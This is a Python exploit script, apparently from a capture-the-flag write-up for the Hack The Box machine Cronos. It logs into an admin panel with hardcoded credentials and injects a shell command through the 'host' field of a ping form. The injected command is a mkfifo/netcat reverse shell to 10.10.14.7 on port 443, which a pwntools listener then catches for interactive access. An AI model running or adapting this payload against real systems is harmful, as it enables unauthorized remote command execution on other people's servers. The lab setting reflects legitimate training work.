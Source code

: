 ### Autopwn {-}

```python
#!/usr/bin/python3

import requests
import pdb
import signal
import threading

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://admin.cronos.htb/index.php"
shell_url = "http://admin.cronos.htb/welcome.php"
lport = 443

def makeRequest():

    s = requests.session()

    post_data = {
        'username': 'admin',
        'password': '1327663704'
    }

    r = s.post(login_url, data=post_data)

    post_data = {
        'command': 'ping -c 1',
        'host': '10.10.14.7; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f'
    }

    r = s.post(shell_url, data=post_data)

if __name__ == '__main__':
    
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```
